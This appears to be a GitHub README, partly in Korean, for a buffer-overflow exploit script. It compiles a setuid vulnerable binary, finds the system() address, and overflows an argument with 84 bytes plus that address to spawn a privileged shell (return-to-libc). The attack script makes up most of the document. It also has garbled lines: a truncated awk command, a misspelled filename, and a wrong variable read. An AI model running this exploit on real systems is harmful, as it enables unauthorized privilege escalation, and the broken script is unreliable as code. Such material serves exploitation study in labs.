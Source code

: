# BOF_Script
this refo contains unsafe code
# Explanation
[사전작업]
1. 작업을 수행할 계정으로 접속합니다.
2. /home/계정 폴더로 이동합니다.
3. 깃허브에 있는 파일들을 옮깁니다.
4. 스크립트를 실행합니다.

[스크립트]
#!/bin/bash
gcc -o vuln vuln.c //vuln.c 컴파일

chmod +s vunl //권한 부여

gcc -o ./getaddr getaddr.c -lc -ldl //getaddr.c 컴파일

/bin/bash2 //bash2 실행

export PATH=$PATH:. //현재 위치 path에 추가

sysaddr=$(./getaddr) //주소 구한 뒤 저장

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" 2> arg //주소 변환하고 vuln에 인자로 넣어서 실행한 뒤 출력값 저장

xxd arg | awk '{for(i=2; i<=NF; i++) ~ //arg에서 원하는 부분 추출해 /bin/bash를 가리키는 심볼릭 링크 생성에 사용

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" //system함주 주소 대입해 vuln 실행

whoami //결과 확인
